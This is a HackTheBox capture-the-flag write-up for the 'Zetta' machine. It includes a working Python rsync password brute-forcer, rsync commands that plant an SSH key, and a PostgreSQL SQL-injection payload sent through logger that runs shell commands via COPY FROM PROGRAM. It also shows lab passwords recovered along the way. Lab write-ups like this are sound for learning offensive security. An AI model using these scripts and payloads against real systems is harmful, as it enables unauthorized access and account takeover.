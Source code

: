 # Zetta - HackTheBox
## Linux - Hard

## User
Connect to `ftp`. From webpage, we know it accept RFC2428. Looking up the RFC, we see we can change IP address or something like that. We want to get the IPv6 address of the box to enumerate further. We connect to `ftp` with netcat. We send the command `EPRT |2|dead:beef:2::12ad|5282|` after authenticating to switch to IPv6. We look at Wireshark while doing so and we get a response from the IPv6 address of the box.

Do Nmap for IPv6 and find that port 8730 open. It is rsync. Try different modules, `etc` is open. Download it using 
```bash
rsync -rltvvv --port=8730 'roy@[dead:beef::250:56ff:feb9:d95a]::etc' etc
```
Look at `rsyncd.conf` in `etc`, we find that a module `home_roy` is open. It requires a password. Use the following python script to bruteforce password:
```python
import socket
import time
import hashlib
import base64
import sys

def generate_challenge(data):
    """generate challenge string from rsync response"""

    # Line 59, From rsync/authenticate.c, original:
    # void gen_challenge(const char *addr, char *challenge)

    # '@RSYNCD: 31.0\n@RSYNCD: AUTHREQD qUah8Knxn+k1k9LINf4fkg\n'

    if "AUTHREQD" not in data:
        raise Exception("fails to recv rsync challenge response")

    challenge = data.split("AUTHREQD ")[1]
    challenge = challenge.strip()

    return challenge

def generate_hash(password, challenge):
    """generate rsync password hash"""

    # Line 83, From rsync/authenticate.c, original:
    # void generate_hash(const char *in, const char *challenge, char *out)

    md5 = hashlib.md5()
    md5.update(password)
    md5.update(challenge)
    md5.digest()

    pwdhash = base64.b64encode(md5.digest())  # 'NCjPJpWP7VPP2dO7X0jhrw=='
    pwdhash = pwdhash.rstrip('==')

    return pwdhash

def main():
    passes = open('/usr/share/wordlists/pass10000.txt').read().split('\n')[:-1]
    print len(passes)
    for p in passes:
        print p
        sock = socket.socket(socket.AF_INET6, socket.SOCK_STREAM, 0)
        sock.connect(("dead:beef::250:56ff:feb9:14b6", 8730,0,0))
        sock.send("@RSYNCD: 31.0\n")
        sock.send("home_roy\n")
        data = ""
        while "AUTHREQD" not in data:
            data = sock.recv(4096)
        chal = generate_challenge(data)
        print chal
        resp = generate_hash(p, chal)
        sock.send("roy {}\n".format(resp))
        fin = ""
        while not fin:
            fin = sock.recv(4096)
        print fin
        if "OK" in fin:
            return
        del sock


if __name__ == '__main__':
    main()
```
After 20 seconds, it outputs:
```
---------- snip -----------
computer
Smli2oF8W9cF9uyCnh47hg
@RSYNCD: OK
```
so the password is `computer`.

We download `home_roy` with the command
``` bash
rsync -rltvvv --port=8730 'roy@[dead:beef::250:56ff:feb9:d95a]::home_roy' home_roy
```
We find a `.ssh` folder. I add my public key to `authorized_keys` and upload it using
```bash
rsync -razhv --port=8730 home_roy/.ssh/authorized_keys  'roy@[dead:beef::250:56ff:feb9:d95a]::home_roy/.ssh/authorized_keys'
```
Then `ssh -i key roy@zetta.htb` gives a shell as roy on the box and we get `user.txt`.

## Root

We find the folder `/etc/rsyslog.d/` which is a git repo. Downloading the repo, we get the file `pgsql.conf` which shows rules for logging. There is an SQLi there. It is tricky to escape the quotes. After some research, we find that in Postgresql, we can put strings between `$$` and there is no need to escape quote. With that, the SQLi is easy to exploit for command injection. We copy our public key to the `.ssh` folder of the `postgres` user. Here is the command to exploit it:
```bash
logger -p local7.info 'bam'"'"',NULL);DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM $$ mkdir /var/lib/postgresql/.ssh; echo -n 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqzkryHZ/K5IJAbh2Be9e0Qjp9EA2eczOs9oUyRVljYm0i8fJiwsXCcWOuTEzmdsk+vRUteFLfrcFh5R/HiqCjv3t3wzUsaHaNHwLJrwp2ovnLNPUKcIBme/ucnZBl3XeLqA3C+cl6vWA1tEYiNkbxkhllrfC6PhCOjuGM2O4aZOXigsOtAKq30sW+pTfAv0zXpPrxM6tVh469IWjetY/ywL9/ve3+qkKWVEv+1PInGYEThLTHa5eohUGHmhIMOpS/lDyDQ8inTxQVFdsIuSj0i4zf/ho/34a7wF3x4v/YK84QQLJnU1i1/6VwS6bWrmrqWDjzN+811lWYYEanom9v root@kali' > /var/lib/postgresql/.ssh/authorized_keys; $$ ;SELECT * FROM cmd_exec;DROP TABLE IF EXISTS cmd_exec;-- -   '
```
Then with `ssh -i key postgres@zetta.htb`, we get a shell as `postgres`.

We see a file `.psql_history` in `/var/lib/postgres`. In it there is a password `sup3rs3cur3p4ass@postgres`. We now remember the `.tudu.xml` in `/home/roy` where it was written:
```xml
<todo done="no" collapse="no">
	<title>Change shared password scheme from &lt;secret&gt;@userid to something more secure.</title>
</todo>
```
We see that this password satisfies this scheme. Let's try `sup3rs3cur3p4ass@root` for the root password... And we are in!
